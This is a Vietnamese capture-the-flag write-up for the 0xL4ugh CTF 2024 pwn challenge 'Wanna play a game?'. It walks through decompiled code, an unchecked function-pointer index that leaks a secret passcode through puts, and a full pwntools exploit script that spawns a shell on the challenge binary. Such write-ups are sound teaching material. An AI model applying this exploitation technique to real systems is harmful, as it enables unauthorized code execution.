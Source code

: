 ```yaml
---
title: "[WRITE UP] - 0xL4ugh CTF 2024 - Wanna play a game?"
published: 2024-12-01
description: "Write up for Wanna play a game challenge"
tags:
  - "PWN"
category: "CTF Write ups"
draft: false
---
```

## General Infomation

```c
[*] '/home/alter/CTFs/0xlaugh/pwn/wanna_play_a_game/public/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

- **main()**

    ```c
    int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
    {
      __int64 v3; // [rsp+0h] [rbp-10h]
      __int64 v4; // [rsp+8h] [rbp-8h]

      setup(argc, argv, envp);
      printf("[*] NickName> ");
      if ( read(0, &username, 0x40uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      while ( 1 )
      {
        menu();
        v3 = read_int();
        printf("[*] Guess>");
        v4 = read_int();
        ((void (__fastcall *)(__int64))conv[v3 - 1])(v4);
      }
    }

    ```

- **easy()**

    ```c
    int __fastcall easy(__int64 a1)
    {
      if ( a1 == rand() )
        return printf("[+] NICE GUESS!!\n[*] Current Score: %lu\n", score);
      else
        return puts("[-] WRONG GUESS :(");
    }
    ```

- **hard()**

    ```csharp
    unsigned __int64 __fastcall hard(__int64 a1)
    {
      int i; // [rsp+14h] [rbp-2Ch]
      char path[8]; // [rsp+2Fh] [rbp-11h] BYREF
      char v4; // [rsp+37h] [rbp-9h]
      unsigned __int64 v5; // [rsp+38h] [rbp-8h]

      v5 = __readfsqword(0x28u);
      strcpy(path, "<qz}<`{");
      v4 = 0;
      for ( i = 0; i <= 6; ++i )
        path[i] ^= 0x13u;
      if ( a1 == passcode )
      {
        puts("[+] WINNNN!");
        execve(path, 0LL, 0LL);
      }
      else
      {
        puts("[-] YOU ARE NOT WORTHY FOR A SHELL!");
      }
      change_passcode();
      return v5 - __readfsqword(0x28u);
    }
    ```

- **read_int()**

    ```c
    __int64 read_int()
    {
      __int64 buf[6]; // [rsp+0h] [rbp-30h] BYREF

      buf[5] = __readfsqword(0x28u);
      memset(buf, 0, 32);
      printf("> ");
      if ( read(0, buf, 0x20uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      return atol((const char *)buf);
    }
    ```

- **change_passcode()**

    ```c
    int change_passcode()
    {
      int fd; // [rsp+Ch] [rbp-4h]

      fd = open("/dev/random", 0);
      if ( fd < 0 )
      {
        perror("OPEN ERROR");
        exit(-1);
      }
      if ( read(fd, &passcode, 8uLL) == -1 )
      {
        perror("READ ERROR");
        exit(-1);
      }
      puts("[*] PASSCODE CHANGED!");
      return close(fd);
    }
    ```


Flow của ELF được cấu trúc như sau:

1. **Nhập username**: Người dùng nhập tên của mình.
2. **Chọn chức năng**: Người dùng chọn một trong hai chế độ (`easy` hoặc `hard`).
3. **Nhập số để đoán**: Người dùng nhập giá trị dự đoán.
4. **Gọi hàm tương ứng**: Chế độ được chọn (`easy` hoặc `hard`) sẽ được gọi thông qua mảng `conv[]`.
5. **Quay lại bước 2**: Chu trình tiếp tục lặp lại.

Khi phân tích qua mã decompile, ta thấy rằng cả `username` và mảng `conv[]` đều được khởi tạo trước khi hàm `main` chạy và nằm trong `.data` section. Với điều kiện **No PIE** (Position Independent Executable bị tắt), địa chỉ của các biến này là cố định. Điều này cho phép ta kiểm soát hoặc tận dụng một trong hai (hoặc cả hai) biến để khai thác chương trình, mở ra nhiều khả năng tấn công dựa trên việc thao túng `.data` section.

Tại `conv` :

```nasm
.data:0000000000404010                 public conv
.data:0000000000404010 conv            dq offset easy          ; DATA XREF: main+A8↑o
.data:0000000000404010                                         ; main+AF↑r
.data:0000000000404010                 dq offset hard
```

Mảng `conv[]` chứa hai địa chỉ hàm: `easy` và `hard`. Khi người dùng chọn chế độ, chương trình sẽ gọi hàm tương ứng thông qua `conv` bằng cách sử dụng cú pháp `conv[input - 1](v4)`. Ở đây, `input - 1` xác định index trong mảng `conv`, tương ứng với `1` (easy - index `0`) và `2` (hard - index `1`). Biến `v4` được truyền làm tham số cho hàm được gọi. Cách triển khai này phụ thuộc hoàn toàn vào giá trị nhập từ người dùng để xác định hàm nào sẽ được thực thi, tạo cơ hội cho việc khai thác nếu người dùng có thể kiểm soát hoặc ghi đè dữ liệu trong mảng `conv`

Như vậy, chương trình tồn tại lỗi **Out-Of-Bounds (OOB)** khi gọi `conv[input - 1](v4)` mà không kiểm tra giá trị của `input`. Điều này cho phép người dùng nhập các giá trị ngoài phạm vi hợp lệ (khác 1 và 2), dẫn đến việc gọi địa chỉ bất kỳ. Kết hợp với khả năng kiểm soát biến `username`, ta có thể chỉnh sửa nội dung của `username` để chứa một địa chỉ hợp lệ. Sau đó, chương trình có thể bị điều hướng để gọi vào địa chỉ đó, mở ra khả năng khai thác. Bên cạnh đó còn có **Bad Seed khi** chương trình sử dụng `srand(time(0))` để tạo seed cho việc sinh passcode ngẫu nhiên. Tuy nhiên, với `rand()`, giá trị này có thể được dự đoán nếu thời gian chạy chương trình được biết. Dù vậy, tính năng này chỉ được sử dụng trong chế độ `easy`, và không có ý nghĩa quan trọng trong khai thác hiện tại nên có thể bỏ qua.

## Leak libc

Theo intended solution, mục tiêu là nhập đúng passcode mà binary đã khởi tạo mỗi khi chạy `main`. Để đạt được điều này, ta có thể lợi dụng hàm `puts(char *s)` để leak dữ liệu từ biến `passcode`. Vì `passcode` được khởi tạo trước khi `main` chạy và nằm trong `.data` section, ta có thể khai thác bằng cách làm như sau:

1. **Chọn địa chỉ cần leak**: Biến `passcode` có địa chỉ cố định (do No PIE), và nội dung của nó có thể được truy cập trực tiếp.
2. **Gọi `puts` với địa chỉ tùy chỉnh**: Bằng cách điều hướng một hàm hoặc mảng (như `conv[]`) để gọi `puts` với tham số là địa chỉ của `passcode`, chương trình sẽ in ra giá trị của nó.

```python
passcode_address = 0x404060
puts_plt = exe.plt.puts

sa(b'[*] NickName> ', p64(puts_plt)) # input nickname
sla(b'> ', b'15') # v3: offset / 8 (từ conv -> username)
sa(b'>', str(passcode_address).encode()) # v4

ru(b'> ')
# print(ru(b'\n'))
passcode = u64(ru(b'\n').strip())
print(f'Passcode leak: {passcode}')
```

## Get shell

Nhập `passcode` ta leak được là đã có được shell:

```python
sla(b'> ', b'2')
sa(b'>', str(passcode).encode())
```

- Full payload

    ```python
    #!/usr/bin/python3
    from pwncus import *

    # context.log_level = 'debug'
    exe = context.binary = ELF('./chall', checksec=False)

    def GDB(): gdb.attach(p, gdbscript='''

    c
    ''') if not args.REMOTE else None

    p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
    set_p(p)
    if args.GDB: GDB(); input()

    # ===========================================================
    #                          EXPLOIT
    # ===========================================================

    passcode_address = 0x404060
    puts_plt = exe.plt.puts

    sa(b'[*] NickName> ', p64(puts_plt))
    sla(b'> ', b'15')
    sa(b'>', str(passcode_address).encode())

    ru(b'> ')
    # print(ru(b'\n'))
    passcode = u64(ru(b'\n').strip())
    print(f'Passcode leak: {passcode}')

    sla(b'> ', b'2')
    sa(b'>', str(passcode).encode())
    interactive()
    ```

